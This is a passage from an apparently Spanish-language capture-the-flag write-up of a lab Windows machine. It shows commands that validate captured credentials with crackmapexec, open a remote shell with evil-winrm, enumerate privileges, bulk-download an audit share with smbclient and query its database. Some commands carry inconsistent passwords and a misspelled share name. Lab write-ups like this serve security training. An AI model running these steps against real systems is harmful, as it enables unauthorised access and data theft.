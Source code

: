 Aqui vemos la contraseña. Lo validamos con crackmapexec

```bash
crackmapexec smb 10.10.10.182 -u "s.smith" -p "sT333ve2"
crackmapexec winrm 10.10.10.182 -u "s.smith" -p "sT333ve2"
```

El usuario es validado y ademas tiene un **Pwn3d!** en el winrm.
## Vuln exploit & Gaining Access {-}

### Coneccion con EVIL-WINRM {-}


```bash
evil-winrm -i 10.10.10.182 -u 's.smith' -p 'sT33ve2'
whoami
ipconfig
type ../Desktop/user.txt
```

Ya podemos leer la flag.
## Privilege Escalation {-}

### Rootear la maquina {-}

```powershell
cd C:\Users\Administrator
dir
whoami /priv
whoami /all
net user
net localgroup "Audit Share"
```

Aqui vemos quel usuario es parte de un grupo `Audit Share` y que le da el privilegio de ver un recurso compartido a nivel de red llamado `\\Casc-DC1\Audit$`.

```bash
smbmap -H 10.10.10.182 's.smith' -p 'sT33ve2'
mkdir Audit
cd Audit
smbclient //10.10.10.182/Autdit$ -U "s.smith%sT33ve2"
dir
prompt off
recurse ON
mget *
```

Aqui hemos descargado todo los ficheros del recurso compartido. Hay un fichero `Audit.db`, lo analyzamos con sqlite

```bash
cd DB
sqlite3 Audit.db

.tables
select * from DeletedUserAudit;
select * from Ldap;
```
